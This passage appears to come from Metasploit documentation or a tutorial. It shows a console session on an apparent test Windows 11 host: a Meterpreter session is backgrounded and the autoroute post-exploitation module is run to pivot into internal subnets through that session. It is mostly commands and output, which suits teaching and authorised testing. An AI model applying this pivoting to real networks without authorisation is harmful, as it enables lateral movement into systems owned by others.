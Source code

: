 ```msf
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use post/multi/manage/autoroute
msf post(multi/manage/autoroute) > show options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, auto
                                       add, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)

msf post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf post(multi/manage/autoroute) > set SUBNET 169.254.0.0
SUBNET => 169.254.0.0
msf post(multi/manage/autoroute) > set NETMASK /16
NETMASK => /16
msf post(multi/manage/autoroute) > show options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, auto
                                       add, print, delete, default)
   NETMASK  /16              no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION  1                yes       The session to run this module on
   SUBNET   169.254.0.0      no        Subnet (IPv4, for example, 10.10.10.0)

msf post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against WIN11-TEST
[*] Searching for subnets to autoroute.
[+] Route added to subnet 169.254.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.19.176.0/255.255.240.0 from host's routing table.
[*] Post module execution completed
msf post(multi/manage/autoroute) >
```
If we now use Meterpreter's `route` command we can see that we have two route table entries within Metasploit's routing table, that are tied to Session 1, aka the session on the Windows 11 machine. This means anytime we want to contact a machine within one of the networks specified, we will go through Session 1 and use that to connect to the targets.

```msf
msf post(multi/manage/autoroute) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   169.254.0.0        255.255.0.0        Session 1
   172.19.176.0       255.255.240.0      Session 1

[*] There are currently no IPv6 routes defined.
msf post(multi/manage/autoroute) >
```
